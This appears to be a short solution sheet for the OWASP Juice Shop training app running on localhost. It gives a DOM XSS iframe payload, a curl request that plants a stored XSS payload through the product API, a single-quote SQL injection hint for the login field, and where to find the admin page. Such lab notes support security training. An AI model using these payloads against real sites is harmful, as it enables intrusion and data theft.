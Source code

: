 # Juice Shop

## Running

```sh
nx start juice-shop
```

## XSS

### DOM XSS

Place this in search bar

```sh
<iframe src="javascript:alert(`xss`)">
```

Alternatively via <http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E>

### Persisted API XSS

Run this request

```sh
curl -X PUT http://localhost:3000/api/products/6 \
    -H "Content-Type: application/json" \
    -d '{"description":"<iframe src=\"javascript:alert(`xss!!!`)\">"}'
```

## SQL Injection

Place ' in login to terminate the string. No Prepared statements used.

## Miscellaneous

-   Privacy policy at <http://localhost:3000/#/privacy-security/privacy-policy>
-   Scoreboard at <http://localhost:3000/#/score-board>
-   Administration at <http://localhost:3000/#/administration> (see jwt.js to get access)
